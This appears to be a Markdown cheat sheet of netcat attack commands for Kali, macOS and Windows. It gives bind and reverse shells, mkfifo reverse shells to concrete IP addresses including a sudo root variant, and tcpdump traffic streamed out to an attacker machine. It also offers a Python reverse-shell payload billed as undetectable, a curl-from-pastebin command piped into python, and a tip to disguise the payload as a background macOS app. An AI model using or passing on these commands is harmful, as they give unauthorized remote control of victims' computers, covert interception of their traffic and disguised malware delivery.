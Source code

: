 # Netcat

Kali:

	nc MACOS/Windows-IP 8888  -e /bin/bash (connect)
	nc  -lvvp 8888 -e /bin/bash (listen)

MacOS:

	nc KALI-IP 8888 (connect - cannot execute -e directly)
    nc -l 8888 (listen - cannot execute -e directly)

Windows:

	nc KALI-IP 8888 -e cmd.exe (connect)
	nc  -lvvp 8888 -e cmd.exe (listen)

## Reverse Shell

Shell:

	mkfifo /tmp/f; nc 192.168.0.110 2222 0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

Bash:

	mkfifo /tmp/f; nc 51.210.47.127 1234 0</tmp/f | /bin/bash -i >/tmp/f 2>&1; rm /tmp/f

Bash: (root)

	mkfifo /tmp/f; nc 51.210.47.127 1234 0</tmp/f | sudo /bin/bash -i >/tmp/f 2>&1; rm /tmp/f

## Netcat & TCPDump:

Data in file:

Sniff traffic from a mac with netcat (default on macos) and use tcpdump (default on macos) to send the traffic to Kali then use wireshark to analyse that traffic:

	/usr/sbin/tcpdump -w - | nc KALI_IP 7777 (on mac)
	nc -l -p 7777 | tee /tmp/sniffed_output.pcapng (on kali)

Data in real time:

On kali:

	mkfifo /tmp/wiretap
	nc -l -p 9999 > /tmp/wiretap
	wireshark -k -i /tmp/wiretap

On mac:

	/usr/sbin/tcpdump -i <interface> -w - | nc 1.2.3.4 9999

## Netcat & Payload:

### Option 1:

Create an indetectable payload in python and use it to get a shell on every macos system:

	nc -l -p 8080 (listening on kali)

Create a python payload:

	nano payload.py (and paste that script changing the ip)
	import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.2.3.4",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);

Then, just have to execute that script on macos computer.

	sudo python payload.py

### Option 2:

An other option is to send the script online with a pastebin web service:

	https://pastebin.com

And execute this command on the macos computer:

	curl https://pastebin.com/raw/P6p9WwAT | python - &

### Option 3:

Create a MacOs application to run the script on background with platypus:

	https://sveinbjorn.org/platypus